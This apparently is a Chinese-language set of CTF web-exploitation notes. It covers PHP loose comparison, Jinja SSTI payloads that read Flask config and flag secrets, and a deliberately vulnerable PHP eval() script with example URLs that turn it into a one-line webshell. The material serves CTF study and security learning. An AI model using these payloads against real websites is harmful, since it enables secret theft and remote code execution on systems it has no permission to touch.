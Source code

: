 ```

> 使用\==比较时，true是可以和任何类型的字符串或数字相等，返回true，当然0和false和null除外（true\==0或true\==false或true==null）



# python相关

## SSTI

查看config：

{{config}} 可以获取当前设置，如果题目是这样的：

> app.config ['FLAG'] = os.environ.pop（'FLAG'）

可以直接访问 {{config['FLAG']}} 或者 {{config.FLAG}} 得到 flag。

同样可以找到 config。

```python
{{self.__dict__._TemplateReference__context.config}}
```



## eval()

https://blog.csdn.net/giaogiao123/article/details/119513378?spm=1001.2014.3001.5501

我们平常的认知都是去写入一句话木马到一个php文件或者是jsp文件，然后连接那个文件的目录，实际上，不需要写入文件，我们照样可以利用eval函数造成一句话的形成最后拿下网站webshell

```
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
?>

```

**eval()函数在执行时其中有多个函数，则第一个必须执行正确，第一个以后也必须是函数，但是正确与否都可以执行。**

```
eval('phpinfo();phpinfo();fdsfsdfds'.'asdasdsa();');//成功执行
eval('asdasdsa();phpinfo();fdsfsdfds'.'asdasdsa();');//执行失败
```

```
http://localhost/12.php?c=@eval($_POST[cmd]);  不行
```

```
http://localhost/12.php?c=echo 1;@eval($_POST[cmd]);  行
```
